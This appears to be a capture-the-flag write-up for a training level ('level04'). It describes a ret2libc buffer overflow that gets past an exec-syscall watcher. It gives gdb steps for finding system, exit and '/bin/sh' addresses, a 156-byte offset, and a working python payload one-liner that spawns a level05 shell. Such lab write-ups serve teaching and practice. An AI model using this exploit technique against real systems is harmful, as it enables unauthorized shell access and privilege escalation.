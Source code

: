 We can see that the program watches for exec syscalls, so we cannot use our usual shellcode. One to bypass this is to use a ret2libc

lets do a ret to libc attack

get addresses through gdb

create and compile executable which calls system

	$ scp -P 4242 Ressources/getgotinfo.c level04@192.168.56.101:/tmp
	$ (gdb) p system
	$ (gdb) p exit

now get the address of "/bin/sh" in libc

	$ find START_ADDR, END_ADDR, "/bin/sh"

we use gdb to find that the offset is 156. we now have everything we need to craft our exploit

	$ (python -c 'print "i" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]' ; cat) | ./level04

we now have a shell with level05 access
